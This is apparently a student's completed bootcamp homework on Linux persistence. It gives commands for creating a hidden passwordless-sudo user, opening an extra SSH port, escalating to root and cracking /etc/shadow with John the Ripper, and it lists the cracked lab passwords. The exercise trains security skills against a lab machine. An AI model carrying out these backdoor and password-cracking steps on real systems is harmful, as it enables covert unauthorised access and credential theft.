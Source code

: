 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - **adduser sysd**

2. Give your secret user a password: 
    - **hack**

3. Give your secret user a system UID < 1000:
    - **usermod -u 900 sysd**

4. Give your secret user the same GID:
   - **groupmod -g 900 sysd**

5. Give your secret user full `sudo` access without the need for a password:
   -  **sudo visudo**

6. Test that `sudo` access works without your password:

   - **sysd ALL=(ALL:ALL) NOPASSWD:ALL**
    - **sudo -l command after changing access permission output: User sysd may run the following commands on UbuntuDesktop:**
    **(ALL:ALL) NOPASSWD: ALL**

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    nano /etc/ssh/sshd_config
    Add Port 2222 under Port 22
    Looks like:  Port 22
                 Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - **systemctl restart sshd**

2. Exit the `root` account:
    - **su sysd** 
    

3. SSH to the target machine using your `sysd` account and port `2222`:
    - **ssh sysd@192.168.6.105 -p 2222**

4. Use `sudo` to switch to the root user:
    - **sudo su**

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - **ssh sysd@192.168.6.105 -p 2222**
    
2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - **sudo su**
    - **john /etc/shadow**
    - **passwords(user=passwd): stallman=computer, babbage=freedom, mitnik=trustno1, lovelace=dragon, turing=lakers, sysadmin=passw0rd, root=passwd, student=Goodluck!,**
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

